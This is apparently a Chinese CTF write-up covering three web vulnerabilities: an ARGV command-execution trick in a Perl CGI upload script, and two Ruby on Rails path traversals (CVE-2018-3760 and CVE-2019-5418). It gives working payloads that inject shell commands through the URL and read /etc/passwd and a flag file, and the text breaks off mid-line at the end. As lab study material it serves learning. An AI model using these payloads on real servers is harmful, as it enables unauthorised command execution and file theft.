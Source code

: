 ## **perl**
```
/cgi-bin/file.pl

一个文件上传页面，
上传后回显。

代码类似使用：
use strict;
use warnings; 
use CGI;
my $cgi= CGI->new;
if ( $cgi->upload( 'file' ) ) { 
    my $file= $cgi->param( 'file' );
     while ( <$file> ) { print "$_"; }
}
```
#### **1、文件读取**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
再url后面加上路径，即可读取。
![](.topwrite/assets/image_1735719387896.png)



#### **2、命令执行**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
```
POST /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| HTTP/1.1


/cgi-bin/file.pl?ls%20-l%20/%20|
```



^
## **Ruby On Rails 路径穿越漏洞（CVE-2018-3760）**
Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

直接访问IP/assets/file:%2f%2f/etc/passwd，将会报错，因为文件/etc/passwd不在允许的目录中：
在上方的报错中随意选择一个路径利用../返回上一级，成功实现任意文件读取

payload：http://01b6e267-f041-4729-901f-efd00add7e4a.challenge.ctf.show:8080/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/flag



## **Ruby on Rails 路径穿越与任意文件读取漏洞（CVE-2019-5418）**
在控制器中通过render file形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入\`Accept: ../../../../../../../../etc/passwd

访问 /robots ，修改 Accept: ../../../../../../../../etc/passwd{{